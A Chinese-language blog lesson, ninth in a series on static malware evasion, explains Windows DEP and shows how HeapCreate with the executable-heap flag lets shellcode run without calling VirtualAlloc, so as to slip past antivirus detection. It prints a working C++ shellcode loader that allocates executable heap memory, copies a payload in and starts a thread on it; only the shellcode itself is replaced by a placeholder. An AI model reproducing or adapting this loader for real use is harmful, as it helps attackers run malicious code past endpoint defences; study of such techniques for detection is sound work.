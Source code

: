 ```yaml
---
date: "2020-11-29T00:00:00Z"
description: 本节课，使用HeapCreate API来关闭DEP保护，获取在堆上的代码执行权限，从而绕过对VirtualAlloc的检测。
title: 静态恶意代码逃逸（第九课）
url: /archivers/2020-11-29/2
---
```


代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

## 0x01 数据执行保护（DEP）

DEP(Data Execution Prevention)即“ 数据执行保护”，这是Windows的一项安全机制，主要用来防止病毒和其他安全威胁对系统造成破坏。 微软从Windows XP SP2引入了该技术，并一直延续到今天。

### 为什么要有DEP

在Windows Xp SP2 之前的时代，缓冲区溢出漏洞利用门槛太低了，只要发现有缓冲区溢出漏洞，就可以直接稳定利用，攻击者只需要将Shellcode不断写入堆栈，然后覆盖函数返回地址，代码就可以在堆栈中执行。但堆栈的用途主要是保存寄存器现场，提供一个函数运行时的存储空间，极少数需要代码在堆栈中执行，于是微软为了缓解类似的情况，发明了DEP保护机制，用于限制某些内存页不具有可执行权限。

## 0x02 如何绕过DEP

`VirtualProtect`这个API能够更改内存页的属性为可执行或不可执行，对于二进制漏洞利用来说，溢出的时候，把返回地址设计为`VirtualProtect`的地址，再精心构造一个栈为调用这个API的栈，就可以改变当前栈的内存页的属性，使其从"不可执行"变成"可执行"。

## 0x03 举一反三

由此说来，Shellcode执行其实也需要一个可执行的内存页，那么还有哪些API能够构造一个可执行的内存页呢？

`HeapCreate`可以在进程中创建辅助堆栈，并且能够设置堆栈的属性：

```c
HANDLE WINAPI HeapCreate(
__in DWORD flOptions,
__in SIZE_T dwInitialSize,
__in SIZE_T dwMaximumSize );
```

第一个参数`flOptions`用于修改如何在堆栈上执行各种操作。
你可以设定`0`、`HEAP_NO_SERIALIZE`、`HEAP_GENERATE_EXCEPTIONS`、`HEAP_CREATE_ENABLE_EXECUTE`或者是这些标志的组合。


- `HEAP_NO_SERIALIZE`：对堆的访问是非独占的，如果一个线程没有完成对堆的操作，其它线程也可以进程堆操作，这个开关是非常危险的，应尽量避免使用。
- `HEAP_GENERATE_EXCEPTIONS`：当堆分配内存失败时，会抛出异常。如果不设置，则返回NULL。
- `HEAP_CREATE_ENALBE_EXECUTE`：堆中存放的内容是可以执行的代码。如果不设置，意味着堆中存放的是不可执行的数据。

看到`HEAP_CREATE_ENALBE_EXECUTE`相信很多人能够恍然大悟，我们的Shellcode可以存入这个辅助堆栈中，然后创建一个线程运行它即可。

## 0x04 Shellcode执行

```c++
#include <iostream>
#include <Windows.h>

int main()
{
	char shellcode[] = "123";

	HANDLE hHep = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE | HEAP_ZERO_MEMORY, 0, 0);

	PVOID Mptr = HeapAlloc(hHep, 0, sizeof(shellcode));

	RtlCopyMemory(Mptr, shellcode, sizeof(shellcode));
	DWORD dwThreadId = 0;
	HANDLE hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)Mptr, NULL, NULL, &dwThreadId);
	WaitForSingleObject(hThread, INFINITE);

    std::cout << "Hello World!\n";
}
```

上方的例子中，我将shellcode替换为了其他字符串，因为我觉得shellcode混淆是另外一回事。


![2020-11-29-17-41-52](../../../static/images/a834c32c-4f5f-11ec-b9a7-00d861bf4abb.png)

> 样本链接：https://www.virustotal.com/gui/file/1db88905be721e2b279f8f9a6dad1fbf945311b50cc79378d9f69cec5bbe2f6a/detection
